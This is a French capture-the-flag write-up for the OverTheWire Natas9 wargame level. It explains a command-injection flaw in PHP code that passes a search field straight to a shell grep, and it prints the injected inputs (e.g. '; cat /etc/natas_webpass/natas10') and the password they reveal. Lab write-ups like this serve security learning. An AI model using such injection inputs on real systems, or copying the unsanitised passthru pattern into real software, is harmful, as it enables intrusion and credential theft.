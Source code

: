 ## Over-The-Wire -writeup-
### Natas9 (http://natas9.natas.labs.overthewire.org/)

---
#### Etape 1

On a un box de recherche qui, d'après le sourcecode mis à disposition, cherche chaque mot contenant l'input de l'utilisateur dans un dictionnaire.txt

Voici la fonction php:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

**On sait aussi que les mots de passes sont stockés dans /etc/natas_webpass/**, et la ligne de recherche dans le dictionnaire est vulnérable: `passthru("grep -i $key dictionary.txt");`

Il suffit de remplacer la variable $key par ";" pour terminer la ligne, et à la suite une commande qui nous permettrais de voir le contenu de *webpass*:

---
#### Etape 2

Tapons `; ls -la /etc/natas_webpass/natas10"` dans le box de recherche, et on obtient:
> -r--r----- 1 natas10 natas9     33 Dec 20  2016 /etc/natas_webpass/natas10  
> -rw-r----- 1 natas9  natas9 460878 Dec 15  2016 dictionary.txt

Et si on rentre `; type /etc/natas_webpass/natas10"`, on trouve que le fichier natas10 est un ASCII text.  

---
#### Etape 3


Il suffit de rentrer `; cat /etc/natas_webpass/natas10"` pour voir à quoi ressemble le fichier, et après avoir fait ça la page renvoie: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu.

---
Mot de passe: **nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
